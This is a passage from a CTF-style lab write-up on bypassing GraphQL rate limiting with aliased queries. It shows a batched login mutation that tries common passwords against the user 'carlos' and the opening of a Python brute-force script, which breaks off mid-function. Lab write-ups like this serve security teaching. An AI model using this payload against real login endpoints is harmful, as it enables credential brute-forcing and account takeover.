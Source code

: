 The simplified example below shows a series of aliased queries checking whether store discount codes are valid. This operation could potentially bypass rate limiting as it is a single HTTP request, even though it could potentially be used to check a vast number of discount codes at once:

```graphql
#Request with aliased queries

query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

**Hence, we can try to bypass rate limiting via aliases:**
```graphql
mutation login {
    login(input:{username:"carlos",password:"123456"}) {
        token
        success
    }
    login2:login(input:{username:"carlos",password:"password"}) {
        token
        success
    }
    login3:login(input:{username:"carlos",password:"12345678"}) {
        token
        success
    }
    login4:login(input:{username:"carlos",password:"qwerty"}) {
        token
        success
    }
    login5:login(input:{username:"carlos",password:"123456789"}) {
        token
        success
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-4/images/Pasted%20image%2020230707152542.png)

**To automate the process, I'll write a Python script:** (Probably overkilled lol)
```python
#!/usr/bin/env python3
import requests
import json
from time import sleep

class Bruteforcer:
    def __init__(self, url, passwordWordlist):
        self.url = url
        self.passwordWordlist = passwordWordlist
        self.session = requests.Session()

    def prepareLoginMutationQuery(self):
        query = '{"query": "'
        counter = 0
        for password in self.passwordWordlist:
            if counter != 0:
```